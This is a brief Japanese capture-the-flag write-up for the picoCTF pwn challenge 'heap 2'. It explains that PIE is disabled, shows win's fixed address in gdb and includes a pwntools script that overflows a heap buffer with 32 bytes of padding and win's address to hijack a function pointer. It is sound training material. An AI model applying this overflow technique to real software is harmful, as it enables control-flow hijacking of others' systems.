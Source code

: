 ```yaml
---
title: "heap 2"
points: 200
tags: ["pwn"]
---
```


変数xにwin関数のアドレスを入力できるとフラグをゲットしてクリアとなる。

```c
void check_win() { ((void (*)())*(int*)x)(); }
```

PIEは無効化されているのでwin関数のアドレスは固定。

```
gef➤  print win
$1 = {void ()} 0x4011a0 <win>
```

以下のようなコードでフラグゲット。

```python
from pwn import *

elf = ELF('./chall')
# p = process('./chall')
p = remote('mimas.picoctf.net', 61462)

# gdb.attach(p, gdbscript='continue')

p.sendlineafter(b'Enter your choice: ', b'2')
p.sendlineafter(b'Data for buffer: ', b'a'*32 + p64(elf.symbols['win']))

# x = win
p.sendline(b'2')
p.sendline(b'a'*32 + p64(elf.symbols['win']))

# p.interactive() # => 4
```